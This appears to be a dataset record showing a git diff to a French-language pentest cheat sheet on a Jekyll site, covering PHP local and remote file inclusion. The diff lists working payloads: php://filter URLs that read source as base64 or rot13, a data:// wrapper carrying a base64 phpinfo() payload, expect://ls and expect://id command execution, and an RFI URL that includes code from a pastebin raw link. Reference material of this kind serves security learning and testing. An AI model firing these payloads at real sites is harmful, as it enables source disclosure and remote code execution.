

Before and after one commit to fhbapt/fhbapt.github.io, a Jekyll site: the page built from _pages/cheatseet.md, in a window 1280 px wide and 1400 px high, scrolled down 2228 px. Shown: the whole window, without its empty margins (207-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 3351 px from its top, so only the background shows below that.

Commit message:
Update cheatseet.md

````diff
--- a/_pages/cheatseet.md
+++ b/_pages/cheatseet.md
@@ -106,19 +106,11 @@ Les fichiers intéressants :
 
 **Wrapper php://filter**
 
-`https://fhbapt.github.io/?page=php://filter/convert.base64-encode/resource=index.php`
+`https://fhbapt.github.io/?page=php://filter/read=string.rot13/resource=index.php` Récupérer une page en la convertissant en rot13
 
-`http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php`
+`https://fhbapt.github.io/?page=php://filter/convert.base64-encode/resource=index.php` "" base64
 
-**Wrapper data://**
-
-`https://fhbapt.github.io/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==`
-
-`La payload est <?php phpinfo(); ?>`
-
-**Wrapper expect://**
-
-`https://fhbapt.github.io/?page=expect://ls`
+`https://fhbapt.github.io/?page=pHp://FilTer/convert.base64-encode/resource=index.php` "" avec variation des min/MAJ
 
 ### RFI (Remote File Inclusion) <a name="rfi"></a>
 
@@ -130,6 +122,23 @@ Exemple de RFI :
 <?php @include($_GET['page']) ?>
 ```
 
+**Basic RFI**
+
 Utilisation de pastbin pour émuler le serveur et inclure le code du pastbin:
 
-```https://fhbapt.github.io/?page=https://pastebin.com/raw/G68SZPQG```
+```https://fhbapt.github.io/?page=https://pastebin.com/raw/G68SZPQG``` Le pastbin correspond à un phpinfo()
+
+**Wrapper data://**
+
+```
+https://fhbapt.github.io/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
+# La payload est <?php phpinfo(); ?>
+```
+
+**Wrapper expect://**
+
+> Permet d'interpreter du code système directement
+
+`https://fhbapt.github.io/?page=expect://ls`
+
+`https://fhbapt.github.io/?page=expect://id`
````
